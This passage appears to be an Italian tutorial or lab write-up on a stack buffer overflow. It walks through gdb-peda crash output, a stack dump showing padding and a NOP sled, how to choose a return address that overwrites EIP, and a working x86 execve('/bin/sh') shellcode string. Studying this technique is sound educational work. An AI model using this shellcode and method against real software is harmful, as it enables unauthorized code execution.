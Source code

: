 ```
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```

Analizzando lo stack a seguito del crash atteso si verifica la presenza dei bytes di padding contenente `A (0x41)`, successivamente il `NOP sleed` che inizia dal seguente indirizzo `0xffffd57c`:
```
gdb-peda$ x/x 0xffffd578+4
0xffffd57c:     0x90414141
```
Dallo stack completo si nota il valore `0x42424242` sovrascritto nell'indirizzo `0xffffd5f8+4` cioè `0xffffd5fc`, così calcolato:
```
gdb-peda$ x/x 0xffffd5f8+4
0xffffd5fc:     0x42424242
```
Stack completo
```
gdb-peda$ x/200x $esp-200
0xffffd538:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd548:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd558:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd568:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd578:     0x41414141      0x90414141      0x90909090      0x90909090
0xffffd588:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd598:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd5a8:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd5b8:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd5c8:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd5d8:     0x90909090      0x90909090      0x31909090      0x2f6850c0
0xffffd5e8:     0x6868732f      0x6e69622f      0x8950e389      0xe18953e2
0xffffd5f8:     0x80cd0bb0      0x42424242      0x00000000      0xffffd750
0xffffd608:     0xffffd63c      0xf7ffdc44      0x00000380      0x08048581
0xffffd618:     0x00000380      0x00000380      0xf7fdf289   
[..]

```

A questo punto risulta evidente come possiamo scegliere un indirizzo dello stack qualsiasi di questa prima zona di `NOP Codes` come ad esempio `0xffffd588`. 
Questo sarà il valore che useremo per effettuare overwrite del `EIP` nell'exploit, che iniziando l'esecuzione su l'indirizzo puntato da tale registro tornerà indietro fino l'inizio dello shellcode cioè dall'indirizzo `0xffffd5e3` calcolato come segue:
```
gdb-peda$ x/4b 0xffffd5d8+11
0xffffd5e3:     0x31    0xc0    0x50    0x68
```
che rappresentano esattamente l'inizio dello shellcode iniettato:
```
SHELLCODE = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```
Grazie allo scivolamento (sleed), cioè l'esecuzione di tutti i `NOP Codes` che si trovano tra l'indirizzo `0xffffd588` e `0xffffd5e3`
